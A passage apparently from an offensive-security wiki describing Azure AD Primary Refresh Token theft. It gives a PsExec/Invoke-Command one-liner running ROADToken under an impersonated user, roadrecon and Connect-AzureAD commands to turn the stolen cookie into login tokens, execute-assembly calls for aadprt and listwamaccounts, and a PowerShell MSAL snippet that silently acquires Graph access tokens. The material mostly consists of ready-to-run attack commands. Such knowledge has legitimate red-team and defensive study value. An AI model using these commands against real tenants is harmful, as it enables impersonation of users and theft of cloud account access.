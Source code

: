 As oneliner:

```bash
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```

Then you can use the **generated cookie** to **generate tokens** to **login** using Azure AD **Graph** or Microsoft Graph:

```bash
# Generate
roadrecon auth --prt-cookie <prt_cookie>

# Connect
Connect-AzureAD --AadAccessToken <token> --AccountId <acc_ind>
```

### **Web Account Manager (WAM) APIs**

Attackers use legitimate Microsoft authentication libraries (**MSAL**, **WAM APIs**, **WebAuthenticationCoreManager**) from user-level processes to silently retrieve tokens leveraging TPM-protected PRT.

-   **[aadprt](https://posts.specterops.io/)**

```bash
execute-assembly aadprt.exe
```

*(Retrieves PRT cookie via COM interfaces)*

-   **[listwamaccounts](https://posts.specterops.io/)**

```bash
execute-assembly listwamaccounts.exe
```

*(Lists Azure AD accounts logged in via WAM; identifies token targets)*

-   **Generic Example (PowerShell with MSAL)**:

```powershell
$app = [Microsoft.Identity.Client.PublicClientApplicationBuilder]::Create("client-id").Build()
$result = $app.AcquireTokenSilent(@("https://graph.microsoft.com/.default"), $app.GetAccountsAsync().Result[0]).ExecuteAsync().Result
$result.AccessToken
```

*(Silently gets an access token leveraging PRT)*

#### Administrator / SYSTEM-Level Token Abuse

If the attacker escalates to **Administrator or SYSTEM**, they can directly impersonate any Azure AD logged-on user and use the same **COM/WAM token broker APIs**. TPM-protected PRTs do not prevent this legitimate token issuance.

### **User Impersonation and Token Retrieval**
